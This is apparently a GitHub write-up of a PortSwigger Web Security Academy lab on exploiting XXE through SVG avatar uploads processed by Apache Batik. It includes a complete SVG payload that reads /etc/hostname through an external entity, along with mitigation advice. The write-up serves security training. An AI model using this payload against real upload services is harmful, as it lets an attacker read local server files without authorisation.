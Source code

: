 #  Lab: Exploiting XXE via Image File Upload

**Lab URL:** [PortSwigger Web Security Academy](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)  
**Category:** XML External Entity (XXE)  
**Difficulty:**  Practitioner  
**Lab Goal:** Upload an image that uses XXE to extract the contents of `/etc/hostname` and display it.

##  Steps to Reproduce

1. Create a local SVG image with the  XXE payload.
2. Go to any blog post and submit a comment.
3. Upload the SVG as your avatar image.
4. When the image renders, it will display the contents of `/etc/hostname`.
5. Submit the hostname to solve the lab.


##  Payload

Save this as `exploit.svg`:

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/hostname">
]>
<svg xmlns="http://www.w3.org/2000/svg" width="200" height="200">
  <text x="10" y="20">&xxe;</text>
</svg>
```


## Expected Result

- When the image is processed by the Apache Batik library, it will resolve the external entity.
- The SVG will render the hostname from `/etc/hostname` inside the image.
- Copy that value and submit it to solve the lab.


##  Key Takeaway

This lab shows how XXE can be exploited even in **file upload** functionalities when server-side image processors like **Apache Batik** parse XML content, enabling attackers to steal local file data.

##  Mitigation

- Sanitize uploaded files and restrict content types.
- Disable DTDs in XML parsers used by backend services like image libraries.
- Avoid using XML-based image formats for user uploads if not necessary.


##  Author

`vgod-sec` 
🔗 GitHub: [https://github.com/vgod-sec](https://github.com/vgod-sec)
